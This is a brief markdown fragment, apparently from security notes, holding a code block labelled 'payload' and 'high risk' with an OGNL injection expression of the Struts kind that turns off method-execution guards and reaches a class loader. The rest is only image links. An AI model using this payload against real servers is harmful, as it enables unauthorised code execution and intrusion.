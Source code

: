   ![](imgs/002.png)  
  ![](imgs/003.png)

* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.String("test").getClass().getClassLoader()}
  ```   
  ![](./imgs/chop-01-001.png)
